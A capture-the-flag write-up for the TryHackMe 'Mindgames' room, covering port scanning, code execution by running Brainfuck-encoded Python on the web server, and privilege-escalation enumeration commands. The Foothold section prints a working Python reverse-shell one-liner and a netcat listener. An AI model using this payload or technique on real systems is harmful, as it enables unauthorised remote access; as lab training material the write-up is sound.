





# Mindgames 
### Room by [NinjaJc01](https://tryhackme.com/p/NinjaJc01)
### Difficulty: Hard

#Enumeration:

**Nmap:**

`nmap -sC -sV -A 10.10.234.149 -Pn`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-15 18:28 BST
Nmap scan report for 10.10.234.149
Host is up (0.023s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds

```
Nmap returns 2 open ports: **22** (SSH) and **80** (web server).

**Gobuster:** `gobuster dir -u http://10.10.234.149 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Returns no results. 

Visiting the web server reveals some encoded commands, and somewhere to run commands:


If you've taken part in a few CTF's,  you may recognise the language to be "BrainFuck". 

> **Brainfuck** is an esoteric programming language created in 1993 by Urban Müller, and is notable for its extreme minimalism. The language consists of only eight simple commands and an instruction pointer. While it is fully Turing complete, it is not intended for practical use, but to challenge and amuse programmers. 

Decode the 'Hello World' command, to find out that it's written in Python3. [Online encoder/interpreter](https://www.dcode.fr/brainfuck-language)
```Python
print("Hello World")
```
**Testing Code** 
Encode `import os; os.system('id')` and run it on the server: \ 

# Foothold:

Set up a Listener on the attacking box: `nc -lvnp 1234`
Encode a python reverse shell in ||BrainFuck||:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10.",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

```
Run the command:



# PrivEsc:
**Manual Enum**
List users in /home:`ls -la /home`
Can we run anything as sudo?:
```
mindgames@mindgames:~$ sudo -l
[sudo] password for mindgames: 

```
Look for any `SUID` binaries: 
```
mindgames@mindgames:~$ find / -perm -4000 2>/dev/null
```
List processes to see whats running and by which user: 
```
ps -ef
ps aux
ps -ef | grep root
```
See if theres any 'special'/unusual capabilities set on binaries: `getcap -r / 2>/dev/null`


